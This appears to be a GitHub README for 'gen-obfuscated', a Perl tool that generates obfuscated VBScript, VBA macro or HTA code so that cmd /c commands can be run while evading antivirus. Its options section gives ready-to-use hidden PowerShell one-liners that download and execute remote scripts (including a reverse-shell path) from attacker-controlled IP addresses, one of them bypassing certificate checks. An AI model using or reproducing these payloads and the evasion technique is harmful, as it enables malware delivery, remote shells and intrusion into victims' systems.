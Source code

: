 # gen-obfuscated

### Generate Obfuscated Code
This is a simple perl program that generates obfuscated vbs/vba code
for use in passing a command to cmd /c while bypassing AV.

To set the options you will need to edit the .pl file directly this is not just a
simple program with preset payloads. It's designed to take in any
type of one-liner you can think of passing to "cmd.exe /c".

Made to be used along with the async-client powershell script, but any one-liner
that get's you a shell should work.

Generated Output of an obfuscated command string:

![generated output](http://www.nightowlconsulting.com/pics/string-obfuscation-1.png)


The hash value of the resulting code with the same command string will alter upon 
each run do to randomization implemented.

![generated hash](http://nightowlconsulting.com/pics/string-obfuscation-2.png)


### UPDATE
Now has an interactive user prompt just run it from the terminal.

```
./gen-obfuscated.pl
```
The below can still give you ideas of what commands to run and should help you get started.

```
gen-obfuscated.pl

##[  Options ]
#
# The options are included inside due to the tricky nature of escaping powershell code passed as an
# argument from the bash shell, also I don't need too since now the commands are directly taken from the
# user interactively.

##[ Script Type to generate ]
#
# 1 for vbscript
# 2 for vba macro ---> EXPERIMENTAL large macros can be generated affects still unknown...
# 3 for hta script
#
##[ Encode Your IEX? ]
#
# base64 encoding in Powershell, set to false if you already have a base64 encoded payload or
# you want your iex only obfuscated by ascii code.
#
##[ PowerShell IEX ]
#
# The command you wish to be base64 encoded
# iex (New-Object -ComObject Wscript.Shell).Popup('IEX Decoded and Executed!',0,'Done',0x1)
#
# If you already have a powershell command with encoding, for example this can also be used with the 
# alphanumeric shellcode injector payload generated by the setoolkit, I warn you this will create a 
# very long script upwards of 350 lines...
#
# cmd /c powershell -w hidden -enc <-base64 encoded string-> 
#
# Only use ascii chr function obfuscation
# cmd /c powershell -w hidden -c iex (New-Object System.Net.WebClient).DownloadString('http://192.168.1.110/rvs-sh')
#
# OR
#
# A one-liner that supports a dowloadstring from a https site with a self-signed cert.
# cmd /c powershell.exe -w hidden -c "&{[System.Net.ServicePointManager]::ServerCertificateValidationCallback={$true};iex(New-Object System.Net.Webclient).DownloadString('https://192.168.0.15/client')}"
#
# OR
#
# A command that produces a popup, for testing only using ascii chr function obfuscation
# cmd /c powershell -w hidden -c iex (New-Object -ComObject Wscript.Shell).Popup('IEX Decoded and Executed!',0,'Done',0x1););
#
# OR
#
# A command using javascript to pass commands directly to mshta, for maximum effect use script type 3
# cmd /c mshta "javascript:var sh=new ActiveXObject( 'WScript.Shell' ); sh.Popup( 'Javascript decoded and Executed', 15, 'From gen-obfuscated', 64 );close()");
#
# Be Creative...

```
